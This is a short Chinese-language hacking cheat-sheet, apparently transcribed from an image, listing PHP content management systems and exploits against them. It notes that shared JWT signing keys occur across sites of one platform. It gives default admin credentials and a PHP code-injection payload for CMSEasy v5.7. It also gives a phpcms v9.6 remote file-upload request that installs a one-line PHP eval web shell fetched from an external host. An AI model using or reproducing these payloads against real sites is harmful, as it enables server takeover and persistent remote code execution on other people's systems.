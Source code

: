 phpcms：
帝国cms
苹果cms
Drupal
wordpress
discuz


同一套系统的不同站点的jwt加密密钥可能相同。


^
#### **cmseasy php系统v5.7**
admin/admin
后台模板-自定义标签，使用payload，预览即可。
```
1111";}<?php phpinfo() ?>
```


^
## **phpcms v9.6**
安装路径/install/install.php
存在远程任意文件上传
```
http://xx.xx.xx.xx/1.txt存放内容如下:
<?php @eval($_POST[zf]);?>


siteid=1&modelid=11&username=test452&password=test2123&email=test2154@163.com&info[content]=<img src=http://xx.xx.xx.xx/1.txt?.php#.jpg>&dosubmit=1&protocol=
```